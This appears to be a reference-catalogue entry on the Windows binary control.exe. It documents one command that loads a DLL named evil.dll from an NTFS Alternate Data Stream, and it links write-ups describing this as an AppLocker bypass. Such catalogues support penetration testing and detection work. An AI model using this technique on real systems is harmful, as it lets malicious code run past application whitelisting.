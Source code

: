## Control.exe
* Functions: Execute, Read ADS
```

control.exe c:\windows\tasks\file.txt:evil.dll
Execute evil.dll which is stored in an Alternate Data Stream (ADS).
```
   
* Resources:   
  * https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
  * https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/
  * https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
  * https://twitter.com/bohops/status/955659561008017409
   
* Full path:   
  * C:\Windows\system32\control.exe    
  * C:\Windows\sysWOW64\control.exe     
   
* Notes: Thanks to Jimmy - @bohops  
   